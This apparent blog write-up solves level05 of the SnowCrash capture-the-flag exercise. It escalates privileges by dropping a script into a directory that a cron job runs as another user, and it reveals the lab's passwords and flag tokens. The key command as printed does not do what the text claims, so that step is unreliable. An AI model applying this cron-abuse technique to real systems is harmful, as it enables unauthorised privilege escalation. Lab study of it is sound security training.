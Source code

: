 ```yaml
---
title:  "Snow-crash Level05"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-13
last_modified_at: 2024-02-13
---
```


#### 1. The password of `Level05` is the token that got from `Level04`.

```
ne2searoevaevoem4ov4ar8ap

```
#### 2. So, try login to `Level05` with the password we got from `Level04` and try to put the command 'ls -la'. Let's see inside in level05.

```
level05@localhost's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$
```
```bash

level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

It says that there is a new mail. 

#### 4. So, I found the small hint from /var/mail/level05

```bash
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls -la
total 4
drwxrwsr-x  1 root mail  60 Mar  5  2016 .
drwxr-xr-x  1 root root 160 Mar 12  2016 ..
-rw-r--r--+ 1 root mail  58 Feb 13 16:49 level05
```

there is a file `level05`.

```bash
level05@SnowCrash:/var/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
So, I was looking for /usr/sbin/openarenaserver and we found a script as below. Let's take a look inside one by one.

```bash
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do 

	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
That means that the script goes through each file in the specified directory, sets a CPU time limit of 5 seconds for its execution, executes the script with debugging output, and then removes the script file.

We can't and should not put anything inside `/opt/openarenaserver` because this directory will be deleted in every 2 minutes, so we should put our file safely in `/tmp` file.

We therefore, need to create a bash script in that directory,to get the file and to make sure that the optut is redirected to a file in `/tmp`. So, the overall effect of this command is to create a file named `getflag05` in the `/opt/openarenaserver/` directory.

```bash
level05@SnowCrash:/var/mail$ echo 'getflag > /tmp/flag05'
getflag > /tmp/flag05
level05@SnowCrash:/var/mail$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

#### 5.  We got a token for next `level06`

```
viuaaale9huek52boumoomioc
```